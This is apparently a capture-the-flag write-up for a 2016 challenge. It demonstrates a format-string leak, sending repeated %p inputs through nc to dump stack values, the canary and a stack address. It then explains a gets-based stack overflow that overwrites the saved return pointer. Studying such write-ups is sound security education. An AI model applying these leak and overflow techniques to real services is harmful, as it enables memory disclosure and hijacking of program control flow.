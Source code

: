 ### String format

When asked for a name,  formats can be injected into it. When the name is
printed using `printf`, it will be passed as the first argument `format`, 
the formats injected will be interpreted and information on the stack will be
leaked. [More information][strfmt]

For example to leak data as pointers:

{% highlight shell-session %}
$ nc webofscience.2016.volgactf.ru 45678
Tell me your name first
%p.%p.%p.%p
Alright, pass a little test first, would you.
65444 + 20678 = ?
0x7fffffffc350.0x7ffff7dd59e0.0xffffffffffffffff.0x7ffff7ff0740, your response:
{% endhighlight %}

To leak the canary, 43 `%p` are needed and to leak a stack address, 46 are
needed:
{% highlight shell-session %}
$ nc webofscience.2016.volgactf.ru 45678
Tell me your name first
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Alright, pass a little test first, would you.
18268 + 48901 = ?
0x7fffffffc350.0x7ffff7dd59e0.0xffffffffffffffff.0x7ffff7ff0740.0x7ffff7dd3140.
0x1060307d.0xa00000000.0xbf050000475c.0x10661.0x70252e70252e7025.0x252e70252e70
252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e7
0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0
x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e
70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x72756f79202c2e70.0x736e6
f7073657220.0x7fff00203a65.0x1.(nil).0x7fffffffeb50.0x7ffff7a19bf8.(nil).0x7fff
ffffebb0.0x4006e0.0x7ffff7df0515.0x56f9966a.0x7ffff7a51eee.(nil).0x74aae6ccf7dd
59e0.(nil).0x8ac179d6caf69500.0x4006e0.(nil).0x7fffffffebb0., your response:
{% endhighlight %}

### Stack buffer overflow

The `gets` function reads a line (i.e a string terminated by a carriage return)
into a buffer passed as argument. The problem with that function is that no
size is given to limit the amount of data to be copied, therefore it is
possible to write passed the end of the buffer to the saved `rip` pointer. When
the execution returns from the current function, it will continue execution at
the address that has been written over saved `rip` and the control flow can
therefore be hijacked.

The [calling convention][callconv] for Linux on x86-64 architecture shows that
the first argument passed to a function is stored in the register `rdi`. The
call to `gets` is done at `0x40092b`. If we break execution in a debugger, we
would be able to read the address of the buffer.


[strfmt]: https://www.owasp.org/index.php/Format_string_attack
[callconv]: https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
[pwntools]: https://github.com/Gallopsled/pwntools